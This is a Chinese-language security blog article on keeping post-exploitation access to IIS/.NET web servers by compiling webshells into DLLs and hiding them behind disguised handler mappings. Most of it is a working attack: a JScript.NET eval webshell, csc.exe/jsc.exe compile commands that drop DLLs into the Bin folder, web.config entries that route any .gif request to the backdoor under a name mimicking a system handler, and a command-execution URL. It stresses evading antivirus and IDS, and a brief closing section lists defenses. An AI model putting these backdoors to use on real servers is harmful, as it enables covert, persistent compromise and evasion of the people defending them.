**.NET下妙用DLL+处理映射实现后渗透权限维持**

**Ivan\@360云影实验室**

**2018年07月18日**

0x01 前言
=========

话说笔者在探索.NET实现一句话木马系列中在使用一般处理程序（当然也不限于ashx，asmx照样可用）的时候发现一处功能点可以自定义文件类型映射，再配合强大的csc和js编译器就可以完美的生成DLL并且作为WebShell后门程序，这就给攻击者在后渗透阶段权限维持提供了极大的便利，此后门可以实现任意后缀名访问，可以绕过一些IDS等防御产品，笔者从攻防的视角总结出一点姿势和大家分享一下。关于本文介绍到的权限维持的方法和步骤，笔者画了简易的流程图
，如下



大致分解一下权限维持的流程：首先攻击者选择权限维持的方式，这个时候有三种方法可供选择。

| 隐藏手段         | 说明                                                                   |
|------------------|------------------------------------------------------------------------|
| 利用App_Code目录 | 攻击者创建类文件并且在代码中写入一句话木马，在别处文件中实例化调用该类 |
| 直接上传DLL      | 攻击者本地制作一个DLL，可以选择性的加壳后上传到Bin目录下               |
| 本地生成DLL      | 攻击者利用WebShell在Bin目录下生成DLL后门                               |

第一种方法考虑在App_Code目录下创建类文件且在代码中写入一句话木马，再回到根目录下寻找可追加代码的文件或者创建新的文件来调用类；第二种方法考虑在本地创建好一个DLL最好加上壳，再上传到Bin目录下后修改web.config文件增加handlers节点追加映射关系；第三种方法利用本地的环境生成DLL后修改映射访问；这样的好处显而易见，一句话或
大小马内容全部保存在DLL中，传统的文本查杀不奏效，并且访问的时候通过GIF后缀名访问回显的是一个图片验证码这样也能逃逸一些基于流量特征检测的IDS产品，下面分几个小节来详细说明实现的原理和步骤。

0x02 DLL型WebShell后门
======================

在介绍DLL后门之前需要介绍
.NET应用中两个特殊的目录，一个是App_Code目录、还有一个是Bin目录；它们的作用都是在多个Web
应用程序或多个页之间共享代码，App_Code 文件夹可以包含.vb、.cs
等扩展名的源代码文件,，在运行时将会自动对这些代码进行编译，Web
应用程序中的其他任何代码都可以访问到，笔者为了更好的演示效果，新建了一个App_Code目录，并且在About.aspx里实现了下面代码：

| public partial class About : Page { protected void Page_Load(object sender, EventArgs e) { App_Code.apptest apptest = new App_Code.apptest(); HttpContext context = HttpContext.Current; apptest.ProcessRequest(context); } } |
|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

Apptest.ashx中代码如下，作用是输出一句话Hello World , this is App_Code
ProcessRequest

| public class apptest : IHttpHandler { public void ProcessRequest(HttpContext context) { context.Response.Write("Hello World , this is App_Code ProcessRequest"); } public bool IsReusable { get { return false; } } } |
|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

输出的结果如下图





若Web应用里存在App_Code 目录，攻击者将一句话木马隐藏在该目录下的某个文件的方法里，恰好该方法可以被外界的其它的文件调用到，这样就可以实现一个较为隐蔽的后门程序，但这种隐蔽依旧会被D盾或者安全狗查杀到，显然这种方法不是最佳的选择，所以可以考虑放到Bin目录下的DLL文件中。

至于.NET应用程序中Bin目录有何作用，先来段介绍：Bin文件夹中存放着已经编译的程序集，并且
在Web
应用程序任意处的其他代码会自动引用该文件夹。典型的示例是您为自定义类编译好的代码。您可以将编译后的程序集复制到Web应用程序的
Bin文件夹中，这样所有页都可以使用这个类。Bin文件夹中的程序集无需注册。只要.dll
文件存在于 Bin 文件夹中，.NET 就可以识别它。如果您更改了 .dll
文件，并将它的新版本写入到了 Bin 文件夹中，则 .NET
会检测到更新，并对随后的新页请求使用新版本的 .dll
文件。接下来笔者假定服务器上已经存在一个WebShell，创建一个ashx的小马，注意代码是C\#的即可，至于文件的后缀名可以任意指定，笔者指定为C:\\inetpub\\wwwroot\\AdminWeb.txt如下图



保存后到WebShell的CMD窗口下去调用csc.exe编译这个AdminWeb.txt，csc.exe是
.NET提供的可以在命令行下编译cs文件的工具，安装了.Net环境的主机csc.exe的默认位置在
C:\\Windows\\Microsoft.NET\\Framework\\[.NET具体版本号]目录下，例如笔者装了VS之后也会自动安装2.0/3.5/4.0版本，在命名行下输入
/? 看到所有的帮助



其中 /t:library
表示生成dll，/r参数表示引用DLL，-out参数表示生成dll的位置，这里很显然得放到Bin目录下，完整命令如下

| C:\\Windows\\Microsoft.NET\\Framework\\v4.0.30319\\csc.exe /t:library /r:System.Web.dll -out:C:\\inetpub\\wwwroot\\Bin\\AdminWeb.dll C:\\inetpub\\wwwroot\\AdminWeb.txt |
|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

看到下列内容的输出，表示命令执行成功！

| C:\\Windows\\System32\> C:\\Windows\\Microsoft.NET\\Framework\\v4.0.30319\\csc.exe /t:library /r:System.Web.dll -out:C:\\inetpub\\wwwroot\\Bin\\AdminWeb.dll C:\\inetpub\\wwwroot\\AdminWeb.txt Microsoft (R) Visual C\# Compiler version 4.7.2053.0 for C\# 5 Copyright (C) Microsoft Corporation. All rights reserved. This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versions up to C\# 5, which is no longer the latest version. For compilers that support newer versions of the C\# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240 |
|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

WebShell执行结果如图



再跳转到站点Bin目录下看到成功创建了想要的AdminWeb.dll文件，至此DLL版本的后门程序已经制作完成。



到了这步攻击者肯定会想到在一个已经存在的文件中去调用这个DLL里的方法，笔者新建了c.aspx文件，里面写上一段代码去实例化DLL里的AdminWeb类会触发其构造方法，代码如下

| \<%\@ Page Language="C\#" ValidateRequest="false" %\> \<script runat="server"\>AdminWeb adminWeb = new AdminWeb();\</script\> |
|-------------------------------------------------------------------------------------------------------------------------------|

预览后得到下图结果，在实例化类的过程中自动调用了构造方法，执行了DOS下的set命令。

按照这样的思路在服务器上已经找不到ASPX马儿的任何特征，最多可以发现新建的c.aspx文件可疑，但调用的方法名看上去很平常，即使管理员用D盾或者安全狗也扫不出任何的蛛丝马迹，也实现了一种后门权限维持的方法。但笔者还不满足，接下来还要介绍一种更加隐蔽的方法。

0x03 HttpHandler映射
====================

笔者在第一篇介绍ashx中我们提到过
ISAPI，它是根据文件名后缀把不同的请求转交给不同的处理程序。几乎一大半的文件访问都交给
aspnet_isapi.dll
去处理了，很明显aspnet_isapi.dll对不同的请求采取不同的处理方式，查看C:\\Windows\\Microsoft.NET\\Framework\\v4.0.30319\\Config\\web.config配置定义，可以知道ashx是可以自定义配置实现映射关系，例如下面的配置：

| \<add name="PageHandlerFactory-ISAPI-2.0-32" path="\*.ashx" verb="\*" type="System.Web.UI.SimpleHandlerFactory" validate="True" preCondition="integratedMode" /\> |
|-------------------------------------------------------------------------------------------------------------------------------------------------------------------|

配置项中path属性是必选的，它的作用是指定路径可以包含单个URL或者简单的通配符字符串如
\*.ashx ; 其它的属性参考下表

| 属性         | 说明                                                                  |
|--------------|-----------------------------------------------------------------------|
| name         | 处理映射程序的名称                                                    |
| type         | 必选的属性，指定逗号分割的类/程序集组合，一般对应的就是Bin目录下的DLL |
| verb         | 必选的属性，可以是GET/POST/PUT；也可以是脚本映射如通配符\*            |
| preCondition | 可选属性，可以是集成模式（Integrated）/ 经典模式（Classic）           |
| validate     | 可选的属性，一般为true                                                |

下面笔者演示将通过浏览器访问验证码图片达到命令执行的效果：首先name属性设置为一个伪装成正常处理程序的名字PageHandlerFactory-ISAPI-2.0-32；path属性设置为任意名称的gif图片，这里是实现的验证码；verb属性为\*表示任意请求都可以；type是最重要的命名空间.类名
；preCondition属性设置为集成模式（IIS7性能好）

| \<handlers\> \<add name="PageHandlerFactory-ISAPI-2.0-32" path="\*.gif" verb="\*" type="IsapiModules.Handler" preCondition="integratedMode"/\> \</handlers\> |
|--------------------------------------------------------------------------------------------------------------------------------------------------------------|

笔者编写了一个C\#的小马，保存名称为IsapiModules.Handler.cs
，实现三个功能，一是生成验证码，二是创建一个aspx的一句话文件，三是执行cmd命令；生成验证码的目的是为了更好的隐藏自己，从HTTP返回的数据里输出的是一张图片文件，代码片段如下图



再在命令行下生成 IsapiModules.Handler.dll，生成DLL的命令如下：

| C:\\Windows\\Microsoft.NET\\Framework\\v4.0.30319\\csc.exe /t:library /r:System.Web.dll -out:C:\\inetpub\\wwwroot\\Bin\\IsapiModules.Handler.dll C:\\inetpub\\wwwroot\\IsapiModules.Handler.cs |
|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|



最后只需要在站点根目录下的Web.config文件新增handlers/httpHandlers节点 ;
注意在IIS6添加如下配置

| \<system.web\> \<httpHandlers\> \<add name="PageHandlerFactory-ISAPI-2.0-32" path="\*.gif" verb="\*" type=" IsapiModules.Handler"/\> \</httpHandlers\> \</system.web\> |
|------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

在IIS7集成模式下这样配置

| \<system.webServer\> \<handlers\> \<add name="PageHandlerFactory-ISAPI-2.0-32" path="\*.gif" verb="\*" type="IsapiModules.Handler" preCondition="integratedMode"/\> \</handlers\> \</system.webServer\> |
|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

配置好了之后，IIS7服务管理器映射列表中就会注册笔者自定义的映射程序
PageHandlerFactory-ISAPI-2.0-32，名字和系统的
PageHandlerFactory-ISAPI-2.0很接近，但确实是一个伪装者



打开浏览器随便输入http://ip/anything.gif?a=c&p=cmd.txt&c=ipconfig
，这个时候界面是一个验证码图片，伪装的很好，IDS也不好检测。



这个时候已经在服务器上生成了cmd.txt，得到IP配置信息！



试想留下这样一个完美的后门程序，参数加不加的时候都会输出验证码图片，这样就可以绕过一些终端产品和流量检测，达到了很好的隐藏效果。

0x04 菜刀一句话的隐藏 
======================

实现菜刀可用的一句话就必须要引入Jscript.Net，而且需要利用.NET
FrameWork自带的jsc.exe去编译js脚本。有关jsc.exe的命令可以参考

<https://docs.microsoft.com/zh-cn/previous-versions/visualstudio/visual-studio-2010/7435xtz6(v=vs.100)>

笔者新建IsapiModu1e.Handler.js，实现代码如下

| import System; import System.Web; import System.IO; package IsapiModu1e{ public class Handler implements IHttpHandler{ function IHttpHandler.ProcessRequest(context : HttpContext){ context.Response.Write("\<H1\>Just for Research Learning, Do Not Abuse It! Written By \<a href='https://github.com/Ivan1ee'\>Ivan1ee\</a\>\</H1\>") var I = context; var Request = I.Request; var Response = I.Response; var Server = I.Server; eval(context.Request["Ivan"]); } function get IHttpHandler.IsReusable() : Boolean{ return true}}} |
|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

在WebShell里调用jsc.exe编译js脚本，输入

| C:\\Windows\\Microsoft.NET\\Framework\\v4.0.30319\\jsc.exe /t:library -out:C:\\inetpub\\wwwroot\\Bin\\IsapiModu1e.Handler.dll C:\\inetpub\\wwwroot\\IsapiModu1e.Handler.js |
|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|





修改Web.config配置，添加新的DLL映射关系，完成这步整个菜刀后门配置完成。

| \<system.webServer\> \<modules runAllManagedModulesForAllRequests="true"/\> \<directoryBrowse enabled="true"/\> \<staticContent\> \<mimeMap fileExtension=".json" mimeType="application/json" /\> \</staticContent\> \<handlers\> \<add name="PageHandlerFactory-ISAPI-2.0-32-1" path="\*.gif" verb="\*" type="IsapiModu1e.Handler" preCondition="integratedMode"/\> \</handlers\> \</system.webServer\> |
|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

访问图片菜刀地址 <http://ip/news.gif> ，看到下图表示菜刀马运行成功！



菜刀也毫无压力的连接成功！





最后笔者下载了常见的几款查杀工具，不出预料之前探索出来的一句话木马和混淆后的DLL均免杀。

0x05 小结
=========

1.  这样实现的后门非常隐蔽，管理员很难发觉，可以长期权限维持；

2.  生成的DLL也可以在本地，或者再进一步可以混淆或者加壳等等对抗服务端杀软；

3.  文章的代码片段和DLL下载请参考 <https://github.com/Ivan1ee> ；

4.  Github上已经有编译好的并且加了混淆的DLL；

5.  未加混淆的DLL MD5分别是IsapiModu1e.Handler.dll =\> MD5
    (39cbf41b99a3751b3ff755509e35b1ae)、IsapiModules.Handler.dll =\> MD5
    (e891914d65f28822aaf2d13ae984eee6)

6.  加壳混淆后的DLL MD5分别是 IsapiModu1e.Handler.dll =\> MD5
    (8cc5a23e925aa52d0ae80bec8ab28f88) 、IsapiModules.Handler.dll =\> MD5
    (7cbba64946ecbc824c2cca1192b16684)

0x06 防御措施
=============

1.  作为管理员可以通过查看Web.config里的handlers映射关系排查；

2.  通过IIS服务器管理程序排查非法的映射关系；

3.  对于隐藏的大马或者小马，传统的IDS不好检测，需要终端防护联动起来排杀；

0x07参考链接
============

<https://docs.microsoft.com/zh-cn/previous-versions/visualstudio/visual-studio-2010/7435xtz6(v=vs.100)>

<https://docs.microsoft.com/zh-cn/dotnet/csharp/language-reference/compiler-options/command-line-building-with-csc-exe>

<https://docs.microsoft.com/zh-cn/previous-versions/dotnet/netframework-2.0/bya7fh0a%28v%3dvs.80%29>

